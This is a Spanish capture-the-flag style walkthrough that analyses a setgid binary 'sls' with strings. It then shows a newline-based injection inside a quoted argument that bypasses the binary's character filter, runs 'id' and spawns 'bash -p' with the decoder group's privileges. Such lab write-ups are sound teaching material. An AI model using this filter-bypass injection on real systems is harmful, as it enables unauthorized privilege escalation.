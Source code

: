 
## Analisis estatico de un binario con Strings
Vamos a realizar un analisis estatico al binario no tan usual llamado sls.
Para enumerar o analizar algun binario podemos usar la herramienta **strings**.  
Como resultado obtenemos que este es un archivo ejecutable ELF.  

{% highlight bash %}
ftpuser@nightmare:/$ strings /usr/bin/sls
strings /usr/bin/sls
/lib64/ld-linux-x86-64.so.2
libc.so.6
# El ejecutable utiliza la función del sistema y el comando ls.
/bin/ls
# Después de ejecutar, vemos que funciona como el comando ls , pero filtra algunos de los caracteres.
<-uM
<bu+
AWAVA
AUATL
[]A\A]A^A_
|&><'"\[]{};
;*3$"
{% endhighlight %}

Para poder obtener la ejecución de comandos debemos evitar los filtros anteriores.  
Podríamos hacer esto usando caracteres de escape al estilo del lenguaje C.

{% highlight bash %}
ftpuser@nightmare:/$ cd /usr/bin
cd /usr/bin
ftpuser@nightmare:/usr/bin$ sls -la /home/decoder
sls -la /home/decoder
total 28
drwxr-xr-x  3 root    decoder 4096 Sep 28  2017 .
drwxr-xr-x  3 root    root    4096 Sep 30  2017 ..
-rw-------  1 root    root       0 Sep 13  2017 .bash_history
-rw-r-----  1 decoder decoder  220 Sep  1  2015 .bash_logout
-rw-r-----  1 decoder decoder 3771 Sep  1  2015 .bashrc
-rw-r-----  1 decoder decoder  675 Sep  1  2015 .profile
drwx-wx--x  2 root    decoder 4096 Oct  2  2017 test
-r--r-----+ 1 decoder decoder   33 Sep 12  2017 user.txt
ftpuser@nightmare:/usr/bin$ sls -b '/home/decoder
sls -b '/home/decoder
> id
id
> '
'
test  user.txt
uid=1002(ftpuser) gid=1002(ftpuser) egid=1001(decoder) groups=1001(decoder),1002(ftpuser)
> bash -p'
bash -p'
bin   home            lib32       media  root  sys  vmlinuz
boot  initrd.img      lib64       mnt    run   tmp  vmlinuz.old
dev   initrd.img.old  libx32      opt    sbin  usr
etc   lib             lost+found  proc   srv   var
bash-4.3$ 
{% endhighlight %}
